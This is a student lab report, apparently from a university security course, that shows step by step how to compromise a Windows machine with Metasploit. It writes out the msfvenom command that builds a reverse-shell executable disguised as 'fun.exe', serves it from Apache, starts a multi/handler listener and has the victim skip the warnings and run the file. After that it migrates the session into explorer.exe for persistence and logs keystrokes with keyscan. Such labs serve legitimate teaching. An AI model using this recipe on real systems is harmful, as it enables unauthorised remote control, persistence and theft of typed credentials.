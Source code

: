 ### EXP 6
NAME : CHANDRAMOHAN S
REG NO : 212221223002

# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
OUTPUT:
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/73df9249-0425-4b20-932d-4837c6ae45c2)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
OUTPUT
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/127368e4-5c79-49a6-b33d-1e7f62f5ed8c)
copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/29cc407e-6567-4804-82c2-92474dfc0270)
Start apache server sudo systemctl apache2 start
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/eb1001b2-1904-470f-8f82-42fa0414c798)
Check the status of apache2
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/4dcd6005-ffe3-4c68-915a-d8640d85c571)
Invoke msfconsole:

OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/5a15a7d3-8d84-4227-897d-4a65ee7e93ae)
set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/2ba90ceb-8360-46e4-8285-cb5cc8f7adf9)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/a832e813-c1a5-4501-a0ad-9349c121a387)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/04aaf57d-93d3-4865-8ab2-6604dcce934f)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/842d9ca8-2282-4429-8190-1e676bf4c94d)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. 
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/4698d960-28c5-4374-9439-03393a5e683e)
keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/1808charitha/Compromising-windows-using-Metasploit/assets/132996838/760536e0-87d5-45db-91fa-0e802a693eb2)















## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
